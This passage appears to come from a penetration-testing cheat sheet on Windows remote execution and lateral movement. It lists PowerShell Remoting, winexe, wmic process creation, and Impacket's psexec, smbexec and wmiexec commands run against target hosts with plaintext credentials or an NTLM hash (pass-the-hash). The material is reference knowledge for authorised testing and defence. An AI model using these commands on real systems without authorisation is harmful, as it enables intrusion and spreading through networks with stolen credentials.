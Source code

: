 ```ruby
    puts "Exiting with code #{output.exitcode}"
end
```


## Powershell Remoting

> PSSESSION

```powershell
PS> Enable-PSRemoting

# one-to-one interactive session
PS> Enter-PSSession -computerName DC01
[DC01]: PS>

# one-to-one execute scripts and commands
PS> $Session = New-PSSession -ComputerName CLIENT1
PS> Invoke-Command -Session $Session -scriptBlock { $test = 1 }
PS> Invoke-Command -Session $Session -scriptBlock { $test }
1

# one-to-many execute scripts and commands
PS> Invoke-Command -computername DC01,CLIENT1 -scriptBlock { Get-Service }
PS> Invoke-Command -computername DC01,CLIENT1 -filePath c:\Scripts\Task.ps1
```


## Winexe 

Integrated to Kali

```powershell
root@payload$ winexe -U DOMAIN/username%password //10.10.10.10 cmd.exe
```

## WMI

```powershell
PS C:\> wmic /node:target.domain /user:domain\user /password:password process call create "C:\Windows\System32\calc.exe”
```

## Psexec.py / Smbexec.py / Wmiexec.py 

From [Impacket](https://github.com/SecureAuthCorp/impacket) (:warning: renamed to impacket-xxx in Kali)
:warning: `get` / `put` for wmiexec, psexec, smbexec, and dcomexec are changing to `lget` and `lput`.

```powershell
root@payload$ git clone https://github.com/CoreSecurity/impacket.git

# PSEXEC like functionality example using RemComSv
root@payload$ python psexec.py DOMAIN/username:password@10.10.10.10
# this will drop a binary on the disk = noisy

# A similar approach to PSEXEC w/o using RemComSvc
root@payload$ python smbexec.py DOMAIN/username:password@10.10.10.10

# A semi-interactive shell, used through Windows Management Instrumentation. 
root@payload$ python wmiexec.py DOMAIN/username:password@10.10.10.10
root@payload$ wmiexec.py domain.local/user@10.0.0.20 -hashes aad3b435b51404eeaad3b435b51404ee:BD1C6503987F8FF006296118F359FA79


```